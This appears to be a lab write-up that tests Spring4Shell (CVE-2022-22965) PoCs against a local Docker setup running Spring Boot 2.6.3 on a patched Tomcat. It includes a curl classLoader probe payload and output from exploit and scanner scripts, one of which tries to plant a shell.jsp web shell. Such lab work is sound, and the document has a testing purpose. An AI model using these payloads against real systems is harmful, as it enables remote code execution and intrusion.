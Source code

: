 ## Lab 2: Partially vulnerable deployment

Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on fixed tomcat version 8.5.78 with open-jdk 11

```js
Tomcat version: 8.5.78
openJDK: 11
Spring Boot: 2.6.3
```

### How to deploy?

```bash
$ docker build . -t sp4s-tomcat8.5.73-jdk11-spb2.6.3 && docker run -p 8001:8080 sp4s-tomcat8.5.73-jdk11-spb2.6.3
```

You can access the application at http://localhost:8001/helloworld/greeting

Test if application is vulnerable

### Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```bash
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8001/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 19:55:40 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T19:55:40.760+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"}
```

400 response indicates that application is vulnerable but is it exploitable let's try to exploit it using another exploit poc


### POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC

```bash
$ python exploit.py --url http://localhost:8001/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 500
[*] Modifying Log Configurations
[*] Response code: 500
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 500
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost.com:8001/shell.jsp?cmd=id
```

It gives 500 error when trying to upload the shell because of fixed tomcat version.


### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
python spring4shell-scan.py --url http://localhost:8001/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8001/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8001/helloworld/greeting | PAYLOAD: class.module.classLoader[ol38bo1]=ol38bo1
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8001/helloworld/greeting
```

Again similar results exploit poc suggests application is vulnerable which it is but because tomcat version is fixed exploit didn't worked

